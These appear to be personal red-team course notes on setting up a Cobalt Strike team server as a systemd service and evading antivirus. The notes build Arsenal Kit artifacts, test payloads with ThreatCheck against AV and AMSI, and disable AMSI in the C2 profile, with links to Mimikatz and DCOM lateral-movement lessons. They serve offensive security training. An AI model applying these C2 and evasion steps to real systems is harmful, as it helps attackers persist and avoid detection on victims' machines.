 ```
sudo vim /etc/systemd/system/teamserver.service
```

```
[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile
#ExecStartPost=/bin/sh -c '/usr/bin/sleep 30; /home/attacker/cobaltstrike/agscript 127.0.0.1 50050 headless Passw0rd! host_payloads.cna &'

[Install]
WantedBy=multi-user.target
```

```
sudo systemctl daemon-reload;sudo systemctl enable teamserver.service;sudo systemctl start teamserver.service;sudo systemctl status teamserver.service
```

# Create Listeners
[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/37750093-listener-management)



# AV Evasion

WSL
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact
```

```shell
./build.sh pipe VirtualAlloc 277492 5 false false /mnt/c/Tools/cobaltstrike/artifacts
```

```shell
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource
```

```bash
./build.sh /mnt/c/Tools/cobaltstrike/resources
```

Open script manager in CS and load

/mnt/c/Tools/cobaltstrike/artifacts/pipe/artifact.cna

/mnt/c/Tools/cobaltstrike/resources/resources.cna

Generate All Payloads and test with

```Powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.svc.exe
```

``` Powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\http_x64.ps1 -e AMSI
```

WSL

```
vim c2-profiles/normal/webbug.profile
```

```
post-ex {
        set amsi_disable "true";
}
```

```
./c2lint c2-profiles/normal/webbug.profile
```

```
sudo systemctl restart teamserver.service;sudo systemctl status teamserver.service
```



mimi
[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/41815529-mimikatz-kit)

Create Dcom jumper
[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/39198081-jump-remote-exec)